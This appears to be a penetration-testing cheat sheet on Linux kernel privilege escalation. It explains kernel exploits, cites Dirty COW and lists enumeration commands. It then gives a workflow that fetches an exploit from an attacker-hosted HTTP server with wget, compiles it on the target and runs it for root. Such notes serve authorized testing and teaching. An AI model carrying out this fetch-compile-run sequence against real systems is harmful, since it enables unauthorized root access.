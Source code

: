 --- ---

<h2>General</h2>
A kernel exploit is a type of attack that targets vulnerabilities in the kernel of an operating system, such as Linux. The kernel is the central component of an operating system that manages resources and provides access to hardware and software services. It is responsible for interacting with the system's hardware and providing the necessary resources to run programs and processes.

An attacker can exploit vulnerabilities in the kernel to gain unauthorized access to a system, escalate their privileges, or execute arbitrary code. This can allow the attacker to bypass security controls, compromise sensitive data, and take control of the system.

There are several ways an attacker might exploit vulnerabilities in the kernel of a Linux system. One way is by using a buffer overflow attack, which involves sending more data to a buffer than it can handle, leading to a crash or the execution of malicious code. Another way is by using a race condition, which involves manipulating the timing of system calls to exploit a vulnerability.

---

<h2>Kernel Exploits</h2>

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

- A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

1. Check Kernel Version, OS Distribution & Version
```
uname -r             ---> Kernel Version
uname -a             ---> OS Version
cat /etc/*release    ---> Distribution Version
```

2. Download the exploit to the machine after finding one and compile it
```
# Attacking Machine
Download Exploit
python3 -m http.server

# Target Machine
wget http://IP/kernel_exploit.c
cc kernel_exploit.c -o kernel_expoit && chmod +x kernel_expoit
  '---> DEPEND ON THE KERNEL EXPLOIT, might need more arguments...
Edit/modify exploit if needed (Change password, username, salt, ...)
```

3. Run the exploit and become root!
```
./kernel_expoit
```

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

- Research sources:
	1.  Based on your findings, you can use Google to search for an existing exploit code.
	2.  Sources such as [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can also be useful.
	3.  Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).  
   
- Hints/Notes:
	1.  Being too specific about the kernel version might not be the best when searching for exploits on Google, Exploit-db, or searchsploit
	2.  Be sure you understand how the exploit code works BEFORE you launch it.
	3.  Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
	4.  You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.